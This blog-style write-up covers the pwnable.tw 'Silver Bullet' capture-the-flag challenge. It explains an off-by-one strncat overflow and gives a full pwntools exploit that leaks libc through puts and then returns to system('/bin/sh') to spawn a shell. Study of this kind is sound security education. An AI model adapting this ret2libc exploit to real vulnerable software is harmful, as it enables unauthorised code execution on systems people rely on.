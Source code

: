 ```yaml
---
layout: post
title: Silver Bullet writeup [pwnable.tw]
subtitle: Series of Pwnable.tw Writeups
tag: [pwn, pwnable.tw, writeup]
---
```


# Silver Bullet

![](https://i.etsystatic.com/5962934/d/il/76350c/2345639591/il_340x270.2345639591_2cgb.jpg)

> Please kill the werewolf with silver bullet!
>
> `nc chall.pwnable.tw 10103`
>
> [silver_bullet](https://github.com/th3-5had0w/CTF-contests/raw/master/pwnable.tw/Silver_Bullet/silver_bullet)
>
> [libc.so](https://github.com/th3-5had0w/CTF-contests/raw/master/pwnable.tw/Silver_Bullet/libc_32.so.6)

- Content:
    - [Vulnerability](#vulnerability)
    - [Exploit](#exploit)

# Vulnerability

After wondering around for a while, i discover a bug in function `power_up`:
```c
int __cdecl power_up(char *dest)
{
  char s[48]; // [esp+0h] [ebp-34h] BYREF
  size_t v3; // [esp+30h] [ebp-4h]

  v3 = 0;
  memset(s, 0, sizeof(s));
  if ( !*dest )
    return puts("You need create the bullet first !");
  if ( *((_DWORD *)dest + 12) > 47u )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(s, 48 - *((_DWORD *)dest + 12));
  strncat(dest, s, 48 - *((_DWORD *)dest + 12)); // <-- the vulnerability here
  v3 = strlen(s) + *((_DWORD *)dest + 12);
  printf("Your new power is : %u\n", v3);
  *((_DWORD *)dest + 12) = v3;
  return puts("Enjoy it !");
}
```

The program allowed to `strncat` upto `n` bytes, which was supposed to be `n-1` bytes, because as strncat manual says:
```If src contains n or more bytes, strncat() writes n+1 bytes to dest (n from  src plus the terminating null byte). Therefore, the size of dest must be at least strlen(dest)+n+1```

## strncat misuse - references:

[[1] Beware of strncpy() and strncat() - eklitzke](https://eklitzke.org/beware-of-strncpy-and-strncat)

[[2] strncpy() and strncat() - Daniel Plakosh](https://us-cert.cisa.gov/bsi/articles/knowledge/coding-practices/strncpy-and-strncat)

From that, we got `1-byte buffer overflow`, where the null-byte will overwrite the size of "the description of the bullet", the size will be reset back to 0, so we can trick the program into concatenating to a string longer than 47 bytes, which will be a buffer overflow ==> We control the `main` function's return pointer (EIP), and also the power of the bullet, after we "kill the wolf", the program execution flow will be redirected to the address we want.

# Exploit

I wrote a code to leak libc and then return back to the main function to get another chance of redirecting the program execution flow. Here we are leaking the libc address of `puts` function
```python
#--init--
print(io.recvuntil(b'choice :'))
io.sendline(b'1')
print(io.recvuntil(b'description of bullet :'))
init_pl = b'A'*47
io.sendline(init_pl)
#--------


#-- phase 1 - leak libc --
payload = b'A'
power_up(payload)
payload = b'A'*7+p32(elf.sym['puts'])+p32(elf.sym['main'])+p32(elf.got['puts'])
power_up(payload)
beat()
print(io.recvuntil('Sorry ... It still alive !!'))
beat()
print(io.recvuntil('Oh ! You win !!'))
a = io.recv()
print(a.split(b'\n'))
#-------------------------


#leak libc

libc.address = u32(a.split(b'\n')[1])-libc.sym['puts']
print('[+] Base libc: ', hex(libc.address))

#---------
```

After having the `puts` libc address, we could subtract the offset and got the base address of libc. And from libc base address, we got `system()` address and `/bin/sh` string address.

The program now has been redirected to the `main` function again, reusing the vulnerability, we will spawn a shell:
```python
#-- phase 2 - exploit --

io.sendline(b'1')
print(io.recvuntil(b'description of bullet :'))
init_pl = b'A'*47
io.sendline(init_pl)


payload = b'A'
power_up(payload)
payload = b'A'*7+p32(libc.sym['system'])+p32(libc.sym['exit'])+p32(next(libc.search(b'/bin/sh')))
power_up(payload)
beat()
print(io.recvuntil('Sorry ... It still alive !!'))
beat()
print(io.recvuntil('Oh ! You win !!'))
print(io.recv())
io.interactive()
#-------------------------
```

Wise words from my master: 

> "Instead of `b'A'*7` you could use `b'\xff\xff\xff'+b'A'*4` to kill the wolf in one time"

```python
from pwn import *

io = process('./silver_bullet')
#io = remote('chall.pwnable.tw', 10103)
#libc = ELF('libc_32.so.6')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('./silver_bullet')

def power_up(des):
    print(io.recvuntil(b'choice :'))
    io.sendline(b'2')
    print(io.recvuntil(b'description of bullet :'))
    io.sendline(des)

def beat():
    print(io.recv())
    io.sendline(b'3')

#--init--
print(io.recvuntil(b'choice :'))
io.sendline(b'1')
print(io.recvuntil(b'description of bullet :'))
init_pl = b'A'*47
io.sendline(init_pl)
#--------


#-- phase 1 - leak libc --
payload = b'A'
power_up(payload)
payload = b'A'*7+p32(elf.sym['puts'])+p32(elf.sym['main'])+p32(elf.got['puts'])
power_up(payload)
beat()
print(io.recvuntil('Sorry ... It still alive !!'))
beat()
print(io.recvuntil('Oh ! You win !!'))
a = io.recv()
print(a.split(b'\n'))
#-------------------------


#leak libc

libc.address = u32(a.split(b'\n')[1])-libc.sym['puts']
print('[+] Base libc: ', hex(libc.address))

#---------


#-- phase 2 - exploit --

io.sendline(b'1')
print(io.recvuntil(b'description of bullet :'))
init_pl = b'A'*47
io.sendline(init_pl)


payload = b'A'
power_up(payload)
payload = b'A'*7+p32(libc.sym['system'])+p32(libc.sym['exit'])+p32(next(libc.search(b'/bin/sh')))
power_up(payload)
beat()
print(io.recvuntil('Sorry ... It still alive !!'))
beat()
print(io.recvuntil('Oh ! You win !!'))
print(io.recv())
io.interactive()
#-------------------------
```